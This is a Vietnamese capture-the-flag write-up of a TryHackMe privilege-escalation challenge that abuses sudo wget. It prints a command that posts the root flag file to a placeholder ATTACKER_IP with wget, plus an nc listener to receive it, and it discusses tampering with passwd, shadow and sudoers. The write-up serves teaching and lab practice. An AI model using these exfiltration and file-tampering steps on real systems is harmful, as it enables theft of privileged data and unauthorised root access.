 Rồi ngon luôn, được cái quyền sudo wget

### __Privilege Escalation__

Thông thường gặp leo quyền sudo như vầy, mọi người sẽ có xu hướng lên https://gtfobins.github.io/gtfobins/wget và lấy command về chạy. Thì với bài này, ta làm như thế nó không work.

Đối với ngữ cảnh của challenge trên TryHackMe, dễ dàng ta biết được file root.txt nằm trong /root/root.txt. Do đó ta có thể lấy được file này dễ dàng bằng wget 

??? success "Cách lấy"
    Tại máy jessie
    
    ```ps1 title="Terminal"
    sudo wget --post-file=/root/root_flag.txt ATTACKER_IP:ATTACKER_PORT_LISTEN
    ```
    
    Tại máy attacker

    ```ps1 title="Terminal"
    nc -lnvp ATTACKER_PORT_LISTEN
    ```

Nhưng cái quan trọng của ta là leo quyền root.

![Chỉnh sửa file sudoers](image-5.png)

## __Some problems__

Nói về việc leo quyền với wget thì ta có nhiều hướng tiếp cận, vì ta có thể linh động trong việc vận chuyển và sửa đổi các file nhạy cảm như `passwd, shadow, crontab,...` hay đặc biệt hơn là file sudoers.

Việc tôi xếp loại file passwd trước file shadow nhưng lại trình bày sau file shadow (2 chỉ mục bên dưới) đều có ý đồ cả đấy. Bạn thử đoán nhé.

Các định nghĩa bên dưới, tôi dùng ChatGPT giải thích.

### __/etc/shadow__

`/etc/shadow` là một tệp văn bản trong hệ thống Unix và các hệ thống dựa trên Unix (như Linux) được sử dụng để lưu trữ thông tin về mật khẩu của người dùng. Khác với tệp /etc/passwd, tệp /etc/shadow chứa các thông tin về mật khẩu đã được băm (hash) và được sử dụng để xác thực người dùng khi họ đăng nhập vào hệ thống.
